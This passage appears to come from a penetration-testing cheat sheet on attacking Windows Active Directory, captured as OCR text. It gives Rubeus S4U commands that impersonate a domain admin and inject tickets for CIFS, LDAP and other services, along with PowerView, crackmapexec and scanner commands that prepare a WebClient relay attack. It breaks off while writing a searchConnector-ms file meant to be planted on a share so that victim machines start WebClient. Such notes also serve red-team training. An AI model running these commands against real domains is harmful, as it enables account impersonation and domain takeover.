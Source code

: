 ````
- Possible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe s4u /user:<USER OR COMPUTER$> /rc4:<HASH> /impersonateuser:<TARGET USER DA> /msdsspn:cifs/<TARGET COMPUTER> /ptt

.\Rubeus.exe s4u /user:<USER OR COMPUTER$> /rc4:<HASH> /impersonateuser:<TARGET USER DA> /msdsspn:host/<TARGET COMPUTER> /altservice:ldap,rpc,http,cifs,host /ptt
```

#### Access the C Disk if user is local admin to the target machine (When impersonating DA)
```
dir \\<COMPUTER>\C$
```

#### It is possible that you impersonated another user which leads to more ACL abuses!

### Webclient Attack
- Requirements:
  - On a Domain Controller to have the LDAP signing or LDAPS binding not enforced (default value)
  - An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
  - On the network, machines with WebClient running (some OS version had this service running by default or use the webclient starting trick from DTMSecurity). OneDrive, SharePoint and NextCloud also activate this on clients.
  - A DNS record pointing to the attacker’s machine (By default authenticated users can create records)
- https://www.bussink.net/rbcd-webclient-attack/
- The blog says this is a requirement but it isn't "On a Domain Controller to have the LDAPS channel binding not required (default value)". You can relay to LDAP and use your own object with a SPN or relay to LDAPS and it will create it. If LDAP or use a specific user use the ```--escalate-user``` flag.

#### Check who can add computers to the domain
- If not already owning an account with SPN
```
(Get-DomainPolicy -Policy DC).PrivilegeRights.SeMachineAccountPrivilege.Trim("*") | Get-DomainObject | Select-Object name

Get-DomainObject | Where-Object ms-ds-machineaccountquota

crackmapexec ldap <DC FQDN> -d <DOMAIN> -u <USER> -p <PASS> -M maq
```

#### Check LDAP Signing and LDAPS Binding
- https://github.com/zyn3rgy/LdapRelayScan
```
python3 LdapRelayScan.py -method BOTH -dc-ip <IP> -u <USER> -p <PASSWORD>

cme ldap <DC IP> -u <USER> -p <PASSWORD> -M ldap-checker
```

#### Scan for target with webclient active
- https://github.com/Hackndo/WebclientServiceScanner
```
webclientservicescanner <DOMAIN>/<USER>:<PASSWORD>@<IP RANGE> -dc-ip <DC IP>

crackmapexec smb <HOST> -d <DOMAIN> -u <USER> -p <PASSWORD> -M webdav
```

#### If no targets, place file on share to activate webclients
- https://www.bussink.net/webclient_activation/
- Filename ```Documents.searchConnector-ms```
```
<?xml version="1.0" encoding="UTF-8"?>
````